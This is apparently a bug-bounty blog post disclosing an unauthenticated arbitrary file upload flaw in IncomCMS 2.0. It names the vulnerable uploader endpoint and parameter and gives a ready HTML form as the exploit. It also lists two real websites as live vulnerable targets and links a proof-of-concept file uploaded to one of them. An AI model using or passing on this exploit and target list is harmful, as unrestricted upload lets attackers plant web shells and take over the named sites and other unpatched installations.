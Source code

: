 ```yaml
---
layout: post
title:  "IncomCMS 2.0 insecure files upload"
description: IncomCMS 2.0 is vulnerable to insecure files upload
tags: exploits bugbounty
---
```

  Hi there!, I've discovered endpoint that accepts any file and upload it without any validation or even being authentication 

### Discovered by : Mohammed Fadhl Al-Barbari aka @m4dm0e


### Vulnerable endpoint/script : `site.com/incom/modules/uploader/showcase/script.php`
  
  
### Vulnerability type : `Insecure file upload`
  
  
### Tested on : `IncomCMS 2.0 old versions probably vulnerable too `
  
### Uploader parameter : `Filedata`  
  
### Live websites : 
```
http://mzgesheft.kz/incom/modules/uploader/showcase/script.php
http://mekom.kz/incom/modules/uploader/showcase/script.php
```

### HTML exploit : 

```html
<!DOCTYPE html>
<html>
<head>
  <title>Upload your files</title>
</head>
<body>
  <form enctype="multipart/form-data" action="http://www.example.com/incom/modules/uploader/showcase/script.php" method="POST">
    <p>Upload your file</p>
    <input type="file" name="Filedata"></input><br />
    <input type="submit" value="Upload"></input>
  </form>
</body>
</html>

```

###  POCs  : `http://mzgesheft.kz/upload/userfiles/image/cve.png`
  


	
	
Thanks for reading this.

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
